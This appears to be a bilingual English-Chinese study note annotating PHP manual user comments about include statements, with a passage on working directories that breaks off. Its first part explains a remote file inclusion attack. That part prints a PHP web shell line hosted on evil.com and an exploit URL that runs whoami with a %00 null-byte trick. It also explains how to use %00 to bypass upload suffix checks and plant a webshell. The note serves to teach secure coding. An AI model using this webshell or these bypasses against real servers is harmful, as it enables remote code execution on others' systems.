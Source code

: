 However, it opens up an RFI vulnerability. To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.  
然而,这打开了一个RFI漏洞,被攻击者利用.  我会首先在我的网站上面创建一个邪恶的text文件
evil.txt  

    <?php echo shell_exec($_GET['command']);?>  //这个是让php执行命令

  
It is a text file so it would not be processed on my server but on the target/victim server. I would browse to:  
h t t p : / / w w w .example.com/example.php?command=whoami& path= h t t p : / / w w w .evil.com/evil.txt%00  
这是个text文件因此不会在我的服务器上面运行,却会在目标/受害者服务器上运行.我会浏览:
h t t p : / / w w w .example.com/example.php?command=whoami& path= h t t p : / / w w w .evil.com/evil.txt%00  
  
The example.php would download my evil.txt and process the operating system command that I passed in as the command variable. In this case, it is whoami. I ended the path variable with a %00, which is the null character. The original include statement in the example.php would ignore the rest of the line. It should tell me who the web server is running as.  
目标网站的php会下载我的 邪恶.txt然后执行我通过变量传递的操作系统命令,  在这个例子中是:whoami.我把%00作为路径变量的结尾,代表是一个空字符.在原本的include语句中会忽略剩余的内容.这样就会告诉我当前web服务器是谁(用户名)在运行.
  
Please use proper input validation if you use variables in an include statement.
请使用合适的验证如果你在include语句中使用变量

在url中%00表示ascll码中的0 ，而ascii中0作为特殊字符保留，表示[字符串]结束，所以当url中出现%00时就会认为读取已结束

比如

`https://mp.csdn.net/upfiles/?filename=test.txt`  此时输出的是test.txt

加上%00

`https://mp.csdn.net/upfiles/?filename=test.php%00.txt`  此时输出的是test.php

就绕过了后缀限制，可以上传webshell啦。因为php会忽略%00后面的内容,而会只保留test.php.这样就把一个php文件上传到服务器了,这样就可以进行访问执行了.


----------
笔记4

**Anon** 26-Feb-2012 06:31

I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();  
Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.

我对于活动工作目录(也就是当前工作目录)的理解再怎么强调也不为过. 找(当前工作目录)的办法: getcwd() :Gets the current working directory,作用是取得当前工作目录;
请记住，如果文件A包括文件B，而B包括文件C；那么B的包含路径里面的当前工作目录(也就是那个点.所代表的目录)应该是A的目录,而不仅仅是B的目录.

这个用户没有给出代码例子,我这里写一个示例:
在user_note4目录中创建
a.php

    <?php
    
    //研究include_path中的加载文件的目录的先后顺序
    //A包含B,B包含C, 那么A和B的 include_path有何不同,PHP到底采用哪个?还是说合并采用?
    